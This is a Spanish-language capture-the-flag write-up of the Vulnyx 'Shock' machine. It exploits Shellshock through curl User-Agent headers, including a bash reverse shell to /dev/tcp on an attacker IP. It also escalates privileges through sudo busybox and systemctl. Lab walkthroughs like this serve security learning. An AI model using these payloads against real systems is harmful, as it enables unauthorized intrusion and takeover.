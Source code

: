 ```yaml
---
layout      : post
title       : "Shock - Vulnyx"
author      : elc4br4
image       : /assets/images/VULNYX/Shock-Vulnyx/Shock.jpg
optimized_image : /assets/images/VULNYX/Shock-Vulnyx/Shock.jpg
category    : [ Vulnyx ]
tags        : [ Linux ]
description : 👻En esta ocasión romperemos una máquina Linux de nivel easy de la nueva plataforma Vulnyx. Explotaremos la vulnerabilidad Shellshock y escalaremos usando dos binarios👻.
---
```


👻Estamos ante una máquina Linux Easy de la nueva plataforma VulNyx en la que tenemos máquinas basadas en UNIX con diferentes niveles de dificultad para aprender y practicar las habilidades de Ciberseguridad👻.

***
**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
2. [Explotación](#explotación).
4. [Escalada de Privilegios](#privesc). 
***

# Reconocimiento [#](reconocimiento) {#reconocimiento}

Como en todo CTF comenzamos enumerando puertos en la máquina víctima, esto lo hacemos usando nmap, aunque esta vez voy a usar la herramienta rustscan.

Lanzo la herramienta con el rango de puertos del 1 al 65535 para que escanee todos los puertos existentes.

![](/assets/images/VULNYX/Shock-Vulnyx/rustcan.webp)

Como podemos ver tenemos dos puertos abiertos, el puerto 22 y el puerto 80.

Si lanzamos un escaneo un poco más avanzado para descubrir qué servicios corren en cada puerto podremos ver lo siguiente.

```r
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:36:60:3e:26:ae:23:3f:e1:8b:5d:18:e7:a7:c7:ce (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSRcer8jyQvBQLNodMY/8sZbjcip1NPmoJkdQZV/Ngm/cXzaUR06OCNKyJM8Blve6Pi86npcZPIs5iuowUH2eTDGRPoH9EbJCbeDRrGyy+CTrdLci3VEmFV8K0rhoYA3nzCPR59CKVdW58OIEMZoJiTzX/I/dH9Mp1XLSLghkirI2YiGJBUhxLyc+03LOTAu/kHC7F1d10/XQjmuspHkfX2PvJsIhzoaKXyo2+CFZNuWkY0/gs+FN9KPdtkMnyv9/+fGn06cYBu/dw7OE9OOcdl2jZUXVT/bEfjK1nNmjp3dAKqOO3iVpciGjCFBgQWvkjakOEpvfd2wAYQHOe9pL7
|   256 34:9a:57:60:7d:66:70:d5:b5:ff:47:96:e0:36:23:75 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP/FWnKmPLA1LACd7NDtXVGKDHXYkZmtzC8zhOGcpSD6nnbvhdo4CU4ZoLMAPQfc2Ww6qNCKY9LkmeegGyZBeoM=
|   256 ae:7d:ee:fe:1d:bc:99:4d:54:45:3d:61:16:f8:6c:87 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ2ClztzZ1xvNlcuG7c24bOcE/UKY3EBFH8Edpcy03vw
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Puerto | Servicio | Versión |
| ------ | -------- | ------- |
| 22     | SSH      | OpenSSH 7.9p1 Debian |
| 80     | HTTP     | Apache httpd 2.4.38 |

Tras ver que tenemos solo estos dos puertos abiertos procedo a enumerar un poco el servidor web Apache.

Accedo con el navegador para ver que encontramos de primeras y echar una pequeña ojeada inicial.

![](/assets/images/VULNYX/Shock-Vulnyx/web1.webp)

Aparente no hay nada de interés, en el código fuente tampoco, por lo que me pongo a fuzzear para buscar rutas o archivos en el servidor.

Para ello usaré la herramienta gobuster, aunque existen muchas más con las que se puede realizar el fuzzing.

![](/assets/images/VULNYX/Shock-Vulnyx/fuzzing1.webp)

Podemos ver que existe el directorio cgi-bin, y eso me hace pensar que podríamos estar ante la vulnerabilidad ShellShock, y viendo el nombre de la máquina... es lo más probable.

Sigo fuzzeando desde la ruta /cgi-bin para descubrir más directorios o archivos dentro de la misma.

Los archivos susceptibles a un ataque Shellshock son los que comúnmente pertenezcan a alguna de las siguientes extensiones, tales como cgi y sh.

Tras fuzzear encuentro un archivo llamado `shell.sh` lo que ya me va haciendo confirmar que es muy probable que estemos ante ShellShock.

![](/assets/images/VULNYX/Shock-Vulnyx/fuzzing2.webp)

Pero antes nada primero vamos a ver que es ShellShock y en que consiste.

## ¿Qué es la vulnerabilidad ShellShock y en qué consiste?

ShellShock es una vulnerabilidad asociada al CVE-2014-6271 que afecta a la shell de Linux "bash" hasta la versión 4.3.
A través de esta vulnerabilidad podemos ejecutar comandos de forma remota.

Se origina porque bash permite declarar funciones, pero no se validan de forma correcta cuando se almacenan en una variable.

# Explotación [#](explotación) {#explotación}

Ahora que ya sabemos más o menos que es esta vulnerabilidad y como se origina, toca explotarla.

Primero vamos a verificar que de verdad estamos ante ShellShock y es vulnerable al mismo.

```bash
curl -H ‘User-Agent: () { :;}; echo; echo ¿Vulnerable a ShellShock?’ ‘http://192.168.0.19/cgi-bin/shell.sh’
```

![](/assets/images/VULNYX/Shock-Vulnyx/shellshock1.webp)

Y como podemos ver ejecuta correctamente el comando `echo ¿Vulnerable a ShellShock?`.

Por lo que el siguiente paso será introducir una reverse shell en bash para intentar ganar acceso a la máquina víctima.

Ponemos netcat en escucha en el puerto 443

`nc -lnvp 443`

Y le metemos una reverse shell bash para ganar acceso.

```bash
curl -H ‘User-Agent: () { :;}; echo; bash -i >& /dev/tcp/192.168.0.30/443 0>&1’ ‘http://192.168.0.19/cgi-bin/shell.sh’
```

Y obtenemos acceso a la máquina como el usuario www-data.

![](/assets/images/VULNYX/Shock-Vulnyx/reverse-shell.webp)

# Escalada de Privilegios [#](privesc) {#privesc}

Tras ganar acceso comienzo a ojear un poco y veo que tenemos el directorio del usuario will, pero no tenemos permisos, por lo que lo primero será intentar migrarnos a este usuario.

# Movimiento Lateral - Usuario will

Ejecuto el comando `sudo -l` para enumerar permisos de sudo y veo que puedo ejecutar el binario busybox como el usuario will sin contraseña.

![](/assets/images/VULNYX/Shock-Vulnyx/busybox.webp)

Y siempre que hablamos de binarios... hablamos de GTFOBINS  

https://gtfobins.github.io/

![](/assets/images/VULNYX/Shock-Vulnyx/busybox-gtfo.webp)

Ejecutamos el siguiente comando:

`sudo -u will /usr/bin/busybox sh`

![](/assets/images/VULNYX/Shock-Vulnyx/will.webp)

Y ya nos hemos migrado al usuario Will y podemos leer la flag user.

El siguiente paso obviamente es escalar privilegios para convertirnos en root.

# Escalada de Privilegios

Para escalar privilegios de nuevo vuelvo a ejecutar el comando `sudo -l` para enumerar permisos sudo y veo que puedo ejecutar el binario systemctl como root sin contraseña.

Por lo que este paso es igual que el anterior, nos dirigimos a gtfobins.

![](/assets/images/VULNYX/Shock-Vulnyx/systemctl-gtfobins.webp)

![](/assets/images/VULNYX/Shock-Vulnyx/systemctl.webp)

Ejecutamos lo siguiente:

```bash
sudo /usr/bin/systemctl
!sh
```

![](/assets/images/VULNYX/Shock-Vulnyx/root.webp)

Y ya somos root.








